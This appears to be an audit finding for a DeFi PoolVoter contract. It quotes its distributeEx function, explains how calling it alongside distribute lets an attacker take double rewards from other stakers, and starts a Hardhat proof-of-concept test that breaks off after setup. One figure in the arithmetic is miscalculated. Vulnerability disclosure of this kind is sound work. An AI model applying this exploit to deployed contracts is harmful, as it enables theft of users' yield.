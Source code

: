 ```solidity
function distributeEx(
        address token,
        uint256 start,
        uint256 finish
    ) public nonReentrant {
        uint256 _balance = IERC20(token).balanceOf(address(this));
        if (_balance > 0 && totalWeight > 0) {
            uint256 _totalWeight = totalWeight;
            for (uint256 x = start; x < finish; x++) {
                uint256 _reward = (_balance * weights[_pools[x]]) /
                    _totalWeight;
                if (_reward > 0) {
                    address _gauge = gauges[_pools[x]];

                    IERC20(token).approve(_gauge, 0); // first set to 0, this helps reset some non-standard tokens
                    IERC20(token).approve(_gauge, _reward);
                    IGauge(_gauge).notifyRewardAmount(token, _reward); // can return false, will simply not distribute tokens
                }
            }
        }
    }

```

So notice that the reward in function distributeEx is calculated directly based on the balance of token (e.g. reward token), weights[pool] and totalWeight. But here the claimable[_gauge] is not updated. So by calling distributeEx and distribute(address), the hackers can get double reward from the protocol. By doing so, he steal unclaimed yield from others.

If a hacker deposit or borrow into a pool (POOL_0) and can get 50% of reward of POOL_0. According to the design of the protocol, if POOL_0 have weights is 25% of the total reward then the reward should be

REWARD_AMOUNT * 0.25 * 0.5 = 0.0125 * REWARD_AMOUNT

But by calling distributeEx and distribute(address _gauge), the hacker can get double the reward

REWARD_AMOUT * 0.25* 2 * 0.5 = 0.25 * REWARD_AMOUT = 2 times

So the profit can be 2 times in one scenario.

I demonstrated this in my POC.

```typescript
it("Test the distributeEx of PoolVoter contract to get the double reward", async function () {
    expect(await poolVoter.totalWeight()).eq(0); 
    console.log("totalWeight: ", await poolVoter.totalWeight()); 
    
    console.log("length of pools:", await poolVoter.length());
    console.log("zero balance of PoolVoter: ", await zero.balanceOf(poolVoter.target)); // Should be 0
    console.log("Step: the Deployer (the owner of Zero token) approve the PoolVoter to spend 100 ZERO token");
    
    // For this test case, just need dummy _asset and _gauge 
    const [_asset,_gauge] = await hre.ethers.getSigners();
    await poolVoter.connect(deployer).registerGauge(_asset.address,_gauge.address);
    
    await poolVoter.connect(ant).vote([reserve.target,_asset.address], [1e8,3e8]);
    console.log("after vote totalWeight: ", await poolVoter.totalWeight()); 
    console.log("length of pools:", await poolVoter.length());
             
    await zero.connect(deployer).approve(poolVoter.target, e18 * 100n);
    await poolVoter.connect(deployer).notifyRewardAmount(e18 * 100n);
```